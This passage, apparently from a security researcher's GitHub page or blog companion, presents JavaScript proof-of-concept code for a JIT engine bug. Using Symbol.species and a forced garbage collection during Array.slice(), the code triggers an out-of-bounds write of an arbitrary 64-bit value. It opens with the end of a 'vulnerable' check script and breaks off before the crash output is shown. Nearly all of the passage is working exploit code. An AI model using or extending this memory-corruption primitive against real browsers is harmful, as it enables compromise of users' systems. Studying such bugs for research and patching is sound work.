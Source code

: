 ```javascript
    } else {
        print(':) vulnerable');
    }
}

main();
```

### Can you write something bigger than a simple uint32?

In the blogpost, we focused on the integer `JSValue` out-of-bounds write, but you can also use it to store an arbitrary `qword`. Here is an example writing `0x44332211deadbeef`!

```javascript
let Trigger = false;
let Arr = null;

function Target(Special, Idx, Value) {
    Arr[Idx] = 4e-324;
    Special.slice();
    Arr[Idx] = Value;
}

class SoSpecial extends Array {
    static get [Symbol.species]() {
        return function() {
            if(!Trigger) {
                return;
            }

            Arr.length = 0;
            gc();
        };
    }
};

function main() {
    const Snowflake = new SoSpecial();
    Arr = new Array(0x21);
    Arr.fill(0);
    for(let Idx = 0; Idx < 0x400; Idx++) {
        Target(Snowflake, 0, 5e-324);
    }

    Trigger = true;
    Target(Snowflake, 0x20, 352943125510189150000);
}

main();
```

And here is the crash you should get eventually:
